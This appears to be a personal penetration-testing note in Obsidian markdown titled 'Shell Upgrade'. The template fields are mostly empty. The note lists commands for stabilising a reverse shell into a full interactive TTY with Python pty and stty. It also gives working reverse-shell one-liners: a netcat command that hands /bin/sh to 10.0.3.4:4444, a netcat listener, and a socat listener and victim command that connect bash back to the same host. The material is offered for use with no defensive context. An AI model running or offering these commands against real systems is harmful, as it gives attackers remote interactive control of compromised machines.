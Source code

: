 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Shell Upgrade]]  
___

## Description:  


### Python

**In reverse shell


```
$ python -c 'import pty; pty.spawn("/bin/bash")'

Ctrl-Z

```
**In Kali

```
$ echo $TERM

$stty -a

$ stty raw -echo

$ fg

```
#**In reverse shell

```
$ reset

$ export SHELL=bash

$ export TERM=xterm-256color

$ stty rows 34 columns 118

python3 -c 'import pty; pty.spawn("/bin/bash")'

```
### Netcat:

```
nc -e /bin/sh 10.0.3.4 4444

nc -lvp 4444

```
### Socat

```
Listen:

socat [file:`tty`,raw,echo=0](file://%60tty%60,raw,echo=0) tcp-listen:4444

Victim:

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444

```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (12:36 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
